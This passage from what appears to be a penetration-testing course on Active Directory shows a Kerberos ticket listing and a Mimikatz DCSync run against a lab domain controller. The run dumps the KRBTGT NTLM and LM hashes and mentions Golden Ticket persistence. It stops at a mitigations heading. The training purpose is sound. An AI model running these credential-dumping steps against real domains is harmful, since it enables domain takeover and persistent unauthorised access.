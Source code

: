 ```powershell-session

#2>     Client: ACADEMY-EA-DC01$ @ INLANEFREIGHT.LOCAL
        Server: cifs/academy-ea-dc01 @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 3/30/2022 15:53:09 (local)
        End Time:   3/31/2022 1:50:25 (local)
        Renew Time: 4/6/2022 15:50:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

Again, since Domain Controllers have replication privileges in the domain, we can use the pass-the-ticket to perform a DCSync attack using Mimikatz from our Windows attack host. Here, we grab the NT hash for the KRBTGT account, which could be used to create a Golden Ticket and establish persistence. We could obtain the NT hash for any privileged user using DCSync and move forward to the next phase of our assessment.

### Performing DCSync with Mimikatz
```powershell-session
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'inlanefreight\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 10/27/2021 8:14:34 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 16e26ba33e455a8c338142af8d89ffbc
    ntlm- 0: 16e26ba33e455a8c338142af8d89ffbc
    lm  - 0: 4562458c201a97fa19365ce901513c21
```

### PetitPotem Mitigations
